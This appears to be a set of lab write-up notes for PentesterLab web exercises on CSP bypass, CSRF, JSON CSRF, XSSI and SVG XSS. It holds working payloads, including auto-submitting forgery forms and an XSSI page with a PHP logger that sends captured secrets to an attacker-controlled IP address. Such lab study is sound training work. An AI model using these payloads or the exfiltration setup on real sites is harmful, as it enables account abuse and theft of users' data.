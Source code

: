 ## Orange Badge

### Intro to CSP 

- https://hackerone.com/reports/153666
- `<script>alert('2fdb31a2-ca58-4650-abfb-9406be061d69')</script>` doesn't work due to CSP
- `Content-Security-Policy: default-src 'self'; script-src 'self' https://pentesterlab.com`
- But there is an XSS in `js/countdown.php?end=2534926825*1000).getTime();alert(1);//`
- So we can use `/?name=<script src="js/countdown.php?end=2534926825*1000).getTime();alert(1);//"></script>`

### CSRF

- Create users and see if any sensitive actions can be performed without tokens.
- Create a malicious page and upload it to your vps `http://18.191.42.249/csrf.html`

```
<!DOCTYPE html>
<html>
<body>
    <form method="post" action="http://ptl-55544eb5-9632baab.libcurl.so/share">
        <input name="user" value="asdf">
        <input name="id" value="0">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

```
Name	Value
PTLAB_KEY	57bea68a-1090-4329-8b94-37d4d3bb453a
```

### JSON CSRF

- The JSON request body looks like this `{"user":"asdf","id":0}`
- When we send stuff through forms they appear as `k1=v1&k2=v2`
- To fix this put everything in name.
- But everything still gets URL encoded, use `enctype="text/plain"`
- Be aware of quotes used. I tried using `'` which gave me an error, while `"` worked.

```
<html>

<body onload="document.forms[0].submit();">
<form enctype="text/plain"
      method="POST"
      action="http://ptl-2d63cb87-4d590bd7.libcurl.so/share">
<input name='{"user":"asdf","id":0,"trash":"' value='"}'>
</form>

</body>
</html>
```

```
Name	Value
PTLAB_KEY	d800b2b5-8625-4c05-a11a-9719c007b554
```

### XSSI
- This exercise covers the exploitation of a Cross-Site Scripting Include (XSSI) vulnerability.
- This type of vulnerability is common with modern applications and applications relying massively on JSON with Padding (JSONP).
- For difference between XSSI, CSRF and XSS look into https://www.scip.ch/en/?labs.20160414

xssi.html
```
<!DOCTYPE html>
<html>
<body>

<script>
function display(data) {
	var str = '';
	for (var key in data) {
		str += '<img src="http://18.191.42.249/log.php?c='+key+':'+data[key] + '">';
	}
	document.write(str);
}
</script>

<script src="http://ptl-a878d4de-fa8ca92a.libcurl.so/secrets.js"></script>
</body>
</html>
```

log.php
```
<?php

$myfile = fopen('logs.txt', 'a') or die('Unable to open file!');
$txt = $_GET['c'];
$myfile = file_put_contents('logs.txt', $txt.PHP_EOL , FILE_APPEND | LOCK_EX);
```

```
$ >logs.txt
$ cat logs.txt 
PTLAB_KEY:7d570b4a-4a01-4430-88db-2f7907382269
```

### SVG XSS

Upload HTML file and change extension through proxy

```
<html>
    <script>
        alert('2fdb31a2-ca58-4650-abfb-9406be061d69')
    </script>
</html>
```


